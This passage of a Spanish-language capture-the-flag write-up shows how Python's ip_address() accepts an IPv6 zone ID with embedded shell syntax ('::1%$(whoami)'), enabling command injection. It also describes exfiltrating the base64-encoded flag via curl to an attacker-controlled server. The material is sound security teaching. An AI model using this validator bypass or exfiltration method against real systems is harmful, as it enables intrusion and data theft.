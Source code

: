 La parte final del reto consistía en explotar una vulnerabilidad dentro de `attack-ip` con el fin de inyectar comandos. Recordemos que el parámetro `target` es validado con la función `ip_address()`, la cual genera una excepción si la cadena no tiene un formato de dirección IPv4 o IPv6. A continuación, muestro un par de ejemplos de esta funcionalidad:

**Dirección IPv4 válida:**

```python
from ipaddress import ip_address
print(ip_address('127.0.0.1'))
```

**Resultado:**

```sh
127.0.0.1
```

**Dirección IPv4 inválida:**

```python
from ipaddress import ip_address
print(ip_address('127.0.TEST.1'))
```

**Resultado:**

```sh
ERROR!
Traceback (most recent call last):
  File "<main.py>", line 2, in <module>
  File "/usr/local/lib/python3.12/ipaddress.py", line 54, in ip_address
    raise ValueError(f'{address!r} does not appear to be an IPv4 or IPv6 address')
ValueError: '127.0.TEST.1' does not appear to be an IPv4 or IPv6 address
```

Después de leer la [documentación de la biblioteca ipaddress](https://docs.python.org/3/library/ipaddress.html) y el [RFC 4007](https://docs.python.org/3/library/ipaddress.html), aprendí que en IPv6 es posible indicar un identificador de zona, usando la sintaxis `<ipv6>%<id_zona>`. Lo interesante es la única validación que hace la función `ip_address()` sobre esta característica: si el caracter % está presente, el ID de zona tambien tiene que incluirse, sin verificar qué tipo de caracteres lo componen.

Teniendo esto en mente, probemos nuevamente la función.

**Dirección IPv6 con inyección de comandos en ID de zona**

```python
from ipaddress import ip_address
print(ip_address('::1%$(whoami)'))
```

**Resultado:**

```sh
::1%$(whoami)
```

La idea detrás del _payload_ final es codificar en base64 la bandera y usar `curl` para crear una petición HTTP, agregando la bandera codificada como parámetro en la URL y enviándola a un servidor bajo nuestro control.
